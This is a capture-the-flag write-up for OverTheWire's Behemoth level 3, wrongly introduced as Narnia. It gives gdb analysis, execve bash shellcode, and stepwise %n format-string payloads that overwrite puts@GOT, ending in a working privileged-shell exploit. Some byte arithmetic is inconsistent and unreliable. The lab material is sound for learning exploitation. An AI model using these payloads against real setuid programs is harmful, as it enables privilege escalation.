

# Behemoth Level - 3

This is an elaborate each level oriented write-up for the Narnia wargame from OverTheWire.org. These challenges provide invaluable hands-on learning experiences in cybersecurity and exploitation techniques. If you find these resources helpful, please consider supporting the OverTheWire team who create and maintain these educational platforms—they're doing important work making security education accessible to everyone.

**`Donate at:`** [https://overthewire.org/information/donate.html](https://overthewire.org/information/donate.html)

---

**`Author:`** Jinay Shah

**`Tools Used:`**

- ltrace
- gdb

---

# TL;DR

### Vulnerability

**Uncontrolled format string vulnerability** in a user-controlled input passed directly to `printf`.

This allowed:

- arbitrary memory reads
- **arbitrary memory writes via `%n`**
- GOT overwrite leading to control-flow hijack

Targeted overwrite:

`puts@GOT` → redirected to shellcode placed on the stack.

---

### Methodology

1. **Binary Analysis**
    - Identified unsafe `printf(argv[1])` usage
    - Confirmed writable GOT and non-PIE binary
    - ASLR disabled on target system
2. **Address Resolution**
    - Located `puts@GOT` (`0x0804b218`)
    - Identified reliable stack offset for format string writes
    - Calculated shellcode address on stack via local testing
3. **Exploit Strategy**
    - Used **byte-wise GOT overwrite** `%n`
    - Split target address into individual bytes
    - Carefully ordered writes to avoid value corruption
    - Managed cumulative printed byte count for correct padding
4. **Critical Decision**
    - Stopped relying solely on GDB behavior
    - Executed payload **outside debugger** using stdin piping
    - Real execution context fixed final byte-write inconsistencies

---

### Final Working Payload (Structure)

**Payload layout (conceptual):**

```
[ puts@GOT+0 ][ puts@GOT+1 ][ puts@GOT+2 ][ puts@GOT+3 ]
[ padding + %n writes to overwrite each byte ]
[ NOP sled ]
[ shellcode ]
```

**Key points:**

- `%hhn` used for precise byte control
- Padding calculated so each `%hhn` writes the intended byte
- Shellcode placed on stack, jumped to via overwritten `puts`
- Payload executed via:
    
    ```bash
    (echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08AAAA\x1b\xb2\x04\x08%76x%n%104x%n%43x%n%256x%n"; cat) | /behemoth/behemoth3
    ```
    

Debugger-only execution caused misleading failures; **local execution succeeded immediately**.

---

### Learnings

- **Debugger behavior ≠ real execution**
    - Stack layout and environment differ significantly
- “Almost correct” exploits still fail — **precision is absolute**
- Byte-wise writes are safer but demand strict accounting
- Format string exploitation is less about creativity and more about **discipline**
- Staying with the problem *after confidence breaks* is the real filter

> Behemoth Level-3 doesn’t test whether you know format strings.
> 
> 
> It tests whether you can finish when everything already “should” work.
> 

---

## Level info:

There is no information for this level, intentionally. 

[ It will remain so for all the next stages as well of this wargame series ]

---

## Solution:

Let’s begin with normal execution of our ./behemoth3 script and then we will see as to how it behaves:



I tried buffer overflow/segmentation fault, but nah that is not the key here it seems:


Let’s try something else now, let’s first analyze the program behavior in GDB:

```
$> gdb ./behemoth3
(gdb) disassemble main
```


The **`puts`** function is and must be the critical vulnerability as we have seen previously in many of the other OverTheWire war game series- format string attacks to be precise [if you have been following my stuff] but anyways moving forward, let’s check if it is accepting formatted strings;


As you can see the value of A was changed to hexadecimal value of → 41 and appended at the end of the string.

Alright so we see the vulnerability now, let’s look at the stack behavior as well in GDB, we will add a breakpoint just after puts function:


```
(gdb) break *main+86
```


```
(gdb) x/20wx $esp

This command is used to examine 20 words of (size of) bytes or data from stack pointer that is $esp

x/  -> examine
20w -> 2o words [size of]
x   -> hexadecimal format [could also be c -> characters or d -> decimal formatting]
```

As we can see in the screenshot 0x41414141 the hex value of ‘AAAA’ is stored. Let’s also see how the program behaves in GDB when we provide longer size pf strings, we saw earlier as well- when we attempted a potential buffer overflow but this time we will see it in GDB [debugging mode];

I’ll be using 500 As-

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The output:


The total number of As received seems far less than what we provided, to be exact they are: 199


Another important thing to be considerate about is [and I have messed this up more than digits can count] executing binaries in GDB or any other debugging mode is absolutely different than executing them in local env [especially in terms of memory, stack behavior and return pointers], the puts function in question if you look closely is:

```
<puts@plt> -> What puts@plt actually means
							In an ELF binary (Linux):
								puts → the real libc function (in libc.so)
								puts@plt → Procedure Linkage Table (PLT) stub inside your binary
```

```
Execution flow is:

call puts@plt
   ↓
PLT stub
   ↓
GOT lookup
   ↓
libc puts()

GDB simply labels the address as puts@plt so humans understand it.
The CPU never sees "@plt" — it just jumps to an address.
puts@plt → dynamic linker → resolve libc puts → patch GOT
```

We need to find the equivalent GOT return location of PLT to figure out the exact return memory address, what is GOT or got.
To inspect the exact GOT location we can:

```
(gdb) info files
```


From **`info files`** we get:

```
.got       :0x0804b1fc -0x0804b200
.got.plt   :0x0804b200 -0x0804b21c
```

Important rules (x86-32)

- Function GOT entries live in `.got.plt`
- `.got` is mostly for non-function relocations
- Each GOT entry = 4 bytes

So `puts@GOT` must be inside the range:

```
0x0804b200 → 0x0804b21c
```

Next we need to manually disassemble the PLT section.

```
disassemble 0x08049020, 0x08049070
```


From our PLT disassembly we get:

```
0x08049060 <puts@plt+0>:  jmp    *0x804b218
```

Therefore:

```
puts@GOT = 0x0804b218
```

This is the only correct answer, it has to be I think- we will see. Also now we can see more concretely:

```
.got.pltrange  : 0x0804b200 -> 0x0804b21c
puts@GOT       : 0x0804b218 <- one 4-byte slot
```

Our PLT disassembly confirms it. Let’s convert it into little endian format:

```
\x18\xb2\x04\x08
```

Make a google search if you are still not aware [or forgot] about big and little endian formatting in computer architectures.

Now the idea of the exploit and payload, to-be crafted and executed is; we store the SHELLCODE in this particular memory address: **`\x18\xb2\x04\x08`** we can get the password for our next level.

Let’s try storing a value first if it succeeds we can store our SHELLCODE easily as well:

```
run < <(echo -e "\x18\xb2\x04\x08%n")
```


See the address **`0x0804b218`** stores the value 4 or hex value of 4 in memory → **`0x00000004`.**

Allow me to give a breakdown of what is happening why this is successful and what the command actually means:

```
Inside GDB:
	run -> starts the program under the debugger.
				 By default, the program reads input from stdin.

  < (stdin redirection)
    run < something
    feeds stdin of the program from something instead of the keyboard.
    So the vulnerable program receives the input automatically.

  <( … ) (process substitution)
  This is Bash, not GDB.
  <(command) runs command
  exposes its output as a temporary file
  whose path is passed to <

Effectively:
program stdin ← output of echo command
Think of it as:
run < /proc/self/fd/63

  echo -e "\x18\xb2\x04\x08%n"
	echo -e
	-e enables escape sequence interpretation
	Without -e, \x18 would be literal text

\x18\xb2\x04\x08
These are raw bytes, not characters:
Byte	Meaning
\x18	0x18
\xb2	0xb2
\x04	0x04
\x08	0x08

Combined (little-endian):

0x0804b218

This is the address we just discovered:
puts@GOT = 0x0804b218

So the input starts by placing the GOT address on the stack.

%n (format string write)

In printf(user_input) vulnerability:
%n does not print
It writes the number of bytes printed so far
To the address supplied from the stack

So the flow is:
printf() reads format string from input
First “argument” on stack → 0x0804b218
%n writes to that address

What gets written?

Bytes printed before %n.
In this payload:
\x18\xb2\x04\x08
= 4 bytes already output

So %n writes:
4
as a 32-bit integer to:
*(int*)0x0804b218 = 4
That overwrites puts@GOT.
```

Essentially, we can overwrite **`puts@got`** in effect now!

We will need a SHELLCODE, I will be suing the one that I have been using this while, if you been following enough you must know by now:

Link to the page:

```
https://shell-storm.org/shellcode/files/shellcode-606.html
```

Shell-hex code:

```
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
```


You can choose any other SHELLCODE as well, however ensure that is preserves effective user ID as in: **`bash -p`.**

We will need to export our SHELLCODE as an .env variable:

```
export SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```


Its exported as intended, we will need to find the exact location of our SHELLCODE variable- which we can do using the script we built in previous level of behemoth level-1 here it is:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]){
        char *ptr;
        ptr = getenv(argv[1]);
        ptr += (strlen(argv[0]) - strlen(argv[2])*2);
        printf("%s location address: %p\n", argv[1], ptr);
}
```

Allow me to explain the code and what it does for us:

```c
int main(int argc, char *argv[]){
```

- Program entry point.
- `argc` = number of command-line arguments.
- `argv` = array of pointers to the argument strings.

Expected arguments:

- `argv[0]` → program name
- `argv[1]` → name of an environment variable
- `argv[2]` → another string (used only for its length)

```c
char *ptr;
```

Declares a pointer of char data-type.

```c
ptr = getenv(argv[1]);
```

Calls **`getenv()`** with the name stored in **`argv[1]`**.

**`getenv()`** returns:

A pointer to the value string of that environment variable in memory

Or NULL if the variable does not exist

**`ptr`** now points to the start of the environment variable’s value, not the variable name.

Example:

```
./getloc SHELLCODE /behemoth/behemoth1

ptr → points to the string value of SHELLCODE in the process memory.
```

```c
ptr += (strlen(argv[0]) - strlen(argv[2])*2);
```

This is the critical pointer arithmetic line.

Break-down:

**`strlen(argv[0])`**
Length of the program name string.

**`strlen(argv[2])`**

Length of the third command-line argument.

**`strlen(argv[2]) * 2`**

Doubles that length.

**`(strlen(argv[0]) - strlen(argv[2])*2)`**

Computes an integer offset.

This value may be positive or negative.

**`ptr += offset`**

Moves the pointer forward or backward in memory by that many bytes.

**What this program is REALLY doing (summary)**

Fetches the memory address of an environment variable’s value.
Applies a calculated offset based on command-line argument lengths.
Prints the resulting memory address.

Save the file and make a binary executable or compile our file to **`.exe`** program:


We get the address as:

```
0xffffd5a4

in little ednian format which will be:
\xa4\xd5\xff\xff
```

Now let’s get back at crafting our payload:

```
SHELLCODE address       : \xa4\xd5\xff\xff
Memory Address puts@got : 0x0804b218
[Also the address to overwrite with SHELLCODE Address]
```

Now here things will get a little tight, hold on and bear with me while I go over the crafting of our payload.

We have this address to be overwritten:
**`0x0804b218`**
For us to actually overwrite this with our shell code address → **`\xa3\xd5\xff\xff`** we need to store them consecutively [like]:

```
0x0804b218 = \xa3
0x0804b219 = \xd5
0x0804b21a = \xff
0x0804b21b = \xff
```

**Now to do so we have to calculate the exact length of the payload:**


So likewise decimal vales for each be; 

```
0xa3 = 164
0xd5 = 213
0xff = 255
0xff = 255
```

Understand this concept if;
**`puts@got.plt`** stores -> **`\xa4\xd5\xff\xff`**[env variable SHELLCODE's address]
Then we effectively achieve the job we intend to and the shell will be spawned, now
back to crafting our payload.

Now let’ start attempting to build a payload:

```
We want to store:

0x0804b218 ****= 0xa3 [164]
so to achieve that we do:
run < <(echo -e "AAAA\x18\xb2\x04\x08%156x%n")
```


See a4 is stored in the **`puts@got.plt`** , for anyone confused allow me to break it down because trust me it isn’t easy at all to grasp, I’m referring to 3 different write-ups at this point so stick along, trust me it will only get better:

```
AAAA -> Used for stack alignment, because generaly 8 charcters are stored 
        in a byte of data. [Its a junk value can also be any other char]

\x18\xb2\x04\x08 -> Address of puts@got.plt in little endian

%156x -> This is a format string directive.
				 It Print 156 characters (padding)
				 %x prints a hex value, but width forces output size
				 Its critical for %n exploitation
				 After this executes:
					 Total printed bytes ≈ 156 (+ whatever came before)
Why 156?
Because 4As -> 4 Bytes + 4 bytes of address of puts@got.plt = 8 Bytes
Size of 0xa3 = 164
164 - 8 = 156.

And %n as we know -> Does not print anything
										 Writes the number of bytes printed so far
										 Writes it to the address pointed to by the corresponding 
										 argument
										 
thus %n stores the hex value i.e. 0xa3 in \x18\xb2\x04\x08 [puts@got.plt]

hope this made things relatively clearer than before.
```

If you grasped the logic so far, it is only getting easier from here on forth:

```
We were here with our last functioning bit of payload:
run < <(echo -e "AAAA\x18\xb2\x04\x08%156x%n")

Next we have from our list:
0xa3 = 164
0xd5 = 213
0xff = 255
0xff = 255

we have, 0xd5 = 213, which is to be stored at -> 0x0804b219
So now to add the same to the next memory address;

%156x %n becomes 156 - 8 = 148 or **%148x%n**
run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08%148x%n")

Now understand this:
"AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08%148x -> this is a total of 164 [148 + 16]

We need to subract this whole from 0xd5 [213],
which will be 213 - 164 = 49 which will be stored with %x of second iteration like:

run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08%148x%n%49x%n")
				
run < <(echo -e "
| AAAA | 0x0804b218 | AAAA | 0x0804b219 | %148x%n | %49x%n |
|  4B  |    4B      |  4B  |    4B      |  pad+w |  pad+w |
")

|--------------------------- INPUT STREAM ----------------------------|

AAAA                    -> padding / alignment (4 bytes)
\x18\xb2\x04\x08         -> target address #1 (0x0804b218)

AAAA                    -> padding / alignment (4 bytes)
\x19\xb2\x04\x08         -> target address #2 (0x0804b219)

%148x                   -> pad output so total printed = 164 bytes
%n                      -> write 164 (0xA4*) to *(0x0804b218)

%49x                    -> pad output so total printed = 213 bytes
%n                      -> write 213 (0xD5) to *(0x0804b219)

|--------------------------------------------------------------------|

Hope that made sense.
```

Let’s see the same in action:


And the logic works flawlessly, exactly as intended :) 
We have to repeat the process twice more:

```
We were here with our last functioning bit of payload:
run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08%148x%n%49x%n")

Next we have from our list:
0xa3 = 164
0xd5 = 213
0xff = 255
0xff = 255

we have, 0xff = 255, which is to be stored at -> 0x0804b21a
So now to add the same to the next memory address;

ff [255] - d5 [213] = 42 and
d5 [213] - a3 [164] = 49

So, for the next memory address we get:

run < <(echo -e "
AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08**AAAA\x1a\xb2\x04\x08**%148x%n%49x%n**%42x%n**
")

We will reduce 148 by 8 more, it becomes 140,
But wedo not have to reduce the other %49x%n- why?
Because: 
And d5 [213] - 24 [8+8+8] - 140 = 49 [anyways]

So we get:
run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08%140x%n%49x%n%42x%n")
```

Let’s test this one as well:


And runs perfectly!

```
We were here with our last functioning bit of payload:
run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08%140x%n%49x%n%42x%n")

Next we have from our list:
0xa3 = 164
0xd5 = 213
0xff = 255
0xff = 255

we have, 0xff = 255, which is to be stored at -> 0x0804b21b
So now to add the same to the next memory address;

ff [255] - ff [255] = 0 [No displacement]

S0 we just do it like:

run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08\x08AAAA\x1b\xb2\x04%132x%n%49x%n%42x%n%x%n")
[remember 140 - 8 = 132]
```

Let’s test it:


It did not work, agh- we will need some refinement i think- we required:

**`puts@got.plt`** to store the value → **`0xffffd5a4`** but instead we only got **`0x00ffd5a4`**

Interestingly, let me test something:


```
run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08\x08AAAA\x1b\xb2\x04%132x%n%49x%n%42x%n%256x%n")
```


This failed as well, my logic was if 0 could not be handled well, maybe we can handle it by increasing the value by 1, but clearly that has not worked either.

Let’s try fresh but this time the shellcode will also include NOP sled which we did not have previously:

```
export SHELLCODE=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```


I am trying it on another system allow me to compile the program for calculating the value of our environment variable using our C code from early on:


```
For address of SHELLCODE: **0xffffd46c**
Little Endian format: **\x6c\xd4\xff\xff**

Now I will again compute the sizes and craft our payload:

**\x6c = 108
\xd4 = 212
\xff = 255
\xff = 255**

1. run < <(echo -e "AAAA\x18\xb2\x04\x08%100x%n")
2. run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08%92x%n%104x%n")
3. run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08%84x%n%104x%n%43x%n")
```


So far so good, now the ultimatum:

```
run < <(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08AAAA\x1b\xb2\x04\x08%76x%n%104x%n%43x%n%256x%n")
```


Nope doesn't work.

Actually wait- I might have to try something this is not the error I think it is- this might just be working fine, let’s try to run this in the local environment instead:

```
(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08AAAA\x1b\xb2\x04\x08%76x%n%104x%n%43x%n%256x%n") | /behemoth/behemoth3
```

And it works, we just need to add a **`; cat`**

**FINAL WORKING PAYLOAD:**

```
(echo -e "AAAA\x18\xb2\x04\x08AAAA\x19\xb2\x04\x08AAAA\x1a\xb2\x04\x08AAAA\x1b\xb2\x04\x08%76x%n%104x%n%43x%n%256x%n"; cat) | /behemoth/behemoth3
```


---
